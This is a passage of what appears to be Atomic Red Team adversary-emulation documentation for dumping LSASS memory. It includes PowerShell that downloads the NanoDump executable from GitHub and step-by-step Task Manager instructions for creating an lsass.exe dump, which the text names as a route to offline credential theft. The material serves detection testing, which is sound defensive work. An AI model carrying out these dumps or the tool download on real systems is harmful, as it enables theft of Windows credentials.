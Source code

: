 

#### Dependencies:  Run with `powershell`!
##### Description: NanoDump executable must exist on disk at specified location (PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe)
##### Check Prereq Commands:
```powershell
if (Test-Path PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/fortra/nanodump/raw/2c0b3d5d59c56714312131de9665defb98551c27/dist/nanodump.x64.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe"
```




<br/>
<br/>

## Atomic Test #5 - Dump LSASS.exe Memory using Windows Task Manager
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with the Windows Task
Manager and administrative permissions.

**Supported Platforms:** Windows


**auto_generated_guid:** dea6c349-f1c6-44f3-87a1-1ed33a59a607





#### Run it with these steps! 
1. Open Task Manager:
  On a Windows system this can be accomplished by pressing CTRL-ALT-DEL and selecting Task Manager or by right-clicking
  on the task bar and selecting "Task Manager".

2. Select lsass.exe:
  If lsass.exe is not visible, select "Show processes from all users". This will allow you to observe execution of lsass.exe
  and select it for manipulation.

3. Dump lsass.exe memory:
  Right-click on lsass.exe in Task Manager. Select "Create Dump File". The following dialog will show you the path to the saved file.




